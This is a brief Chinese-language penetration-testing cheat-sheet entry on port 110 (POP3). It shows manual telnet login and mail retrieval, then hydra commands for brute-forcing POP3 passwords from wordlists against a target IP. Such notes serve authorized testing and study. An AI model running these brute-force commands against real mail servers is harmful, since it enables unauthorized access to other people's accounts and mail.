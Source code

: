 # 110（pop3）

1. 普遍登陆

```bash
telnet x.x.x.x 110
user xxxx
pass xxxx

查看邮件目录
list 
retr 1
```

1. 爆破

```bash
爆破pop3
hydra -spop PORT -L USERNAME_LIST -P PASSWORD_LIST -e nsr -t 22 IP pop3
或者
hydra pop3://192.168.2.141 -L user.txt -P pass.txt
```
